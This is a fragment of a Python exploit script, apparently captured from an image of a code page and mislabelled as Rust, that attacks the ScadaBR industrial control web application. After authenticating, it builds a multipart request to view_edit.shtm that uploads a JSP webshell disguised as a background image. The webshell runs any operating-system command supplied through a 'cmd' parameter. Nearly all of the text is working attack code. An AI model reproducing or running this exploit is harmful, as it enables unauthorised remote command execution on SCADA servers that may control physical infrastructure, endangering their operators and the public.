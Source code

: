 ```rust
            print("[x] Authentication failed :(")
            sys.exit(0)

        # Upload payload
        burp0_url = f"http://{host}:{port}/ScadaBR/view_edit.shtm"
        burp0_headers = {
            "User-Agent": "Mozilla/5.0",
            "Content-Type": "multipart/form-data; boundary=---------------------------6150838712847095098536245849"
        }

        jsp_payload = '''<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if (System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while (disr != null) {
        out.println(disr);
        disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>'''

        # Craft raw multipart/form-data body
        burp0_data = (
            "-----------------------------6150838712847095098536245849\r\n"
            "Content-Disposition: form-data; name=\"view.name\"\r\n\r\n\r\n"
            "-----------------------------6150838712847095098536245849\r\n"
            "Content-Disposition: form-data; name=\"view.xid\"\r\n\r\nGV_218627\r\n"
            "-----------------------------6150838712847095098536245849\r\n"
            "Content-Disposition: form-data; name=\"backgroundImageMP\"; filename=\"win_cmd.jsp\"\r\n"
            "Content-Type: application/octet-stream\r\n\r\n"
            f"{jsp_payload}\r\n"
            "-----------------------------6150838712847095098536245849\r\n"
            "Content-Disposition: form-data; name=\"upload\"\r\n\r\nUpload image\r\n"
            "-----------------------------6150838712847095098536245849\r\n"
            "Content-Disposition: form-data; name=\"view.anonymousAccess\"\r\n\r\n0\r\n"
            "-----------------------------6150838712847095098536245849--\r\n"
        )

        print('[>] Attempting to upload .jsp Webshell...')
```